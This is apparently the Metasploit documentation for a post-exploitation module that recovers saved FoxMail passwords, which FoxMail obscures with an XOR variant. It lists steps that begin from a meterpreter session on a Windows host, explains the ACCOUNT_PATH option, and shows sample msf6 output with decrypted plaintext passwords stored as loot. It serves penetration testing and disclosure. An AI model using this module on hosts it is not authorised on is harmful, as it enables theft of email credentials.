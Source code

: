 ## Vulnerable Application
All FoxMail installations up to including 7.2.19 (the latest version at the time of writing)
are vulnerable as they all rely on a variant of the XOR algorithum to obfuscate the password.

## Verification Steps

  1. Download and install Foxmail package from the official website: https://foxmail.com/win/en.
  2. Use FoxMail to log into a mail server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/foxmail`
  6. If the account file is saved in the system, the email, server, port and plaintext password will be printed.

## Options

### ACCOUNT_PATH

Specifies the account directory path for Foxmail

## Scenarios
### FoxMail 7.2 on Windows 10 v1903
```
[*] Search account files on C:\Foxmail 7.2\Storage
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email                       Server                   Port  SSL    Password
-----                       ------                   ----  ---    --------
kali-team@qq.com            imap.qq.com              993   true   fjcqkkeqbuweddch
kali-team@qq.com            smtp.qq.com              465   true   fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174103_default_10.0.2.15_host.foxmail_pas_205001.txt
[*] Post module execution completed

```

### FoxMail 7.2 on Windows 10 v1903, with ACCOUNT_PATH specified

```
msf6 post(windows/gather/credentials/foxmail) > set account_path "C:\Foxmail 7.2\Storage\"
account_path => C:\Foxmail 7.2\Storage\
msf6 post(windows/gather/credentials/foxmail) > run
[*] Search account files on C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts
[+] Parsing configuration file: 'C:\Foxmail 7.2\Storage\kali-team@qq.com\Accounts\Account.rec0', please wait.
Foxmail Password
================

Email              Server       Port  SSL   Password
-----              ------       ----  ---   --------
kali-team@qq.com   imap.qq.com  993   true  fjcqkkeqbuweddch
kali-team@qq.com   smtp.qq.com  465   true  fjcqkkeqbuweddch

[+] Passwords stored in: /home/kali-team/.msf4/loot/20201004174452_default_10.0.2.15_host.foxmail_pas_487470.txt
[*] Post module execution completed
```
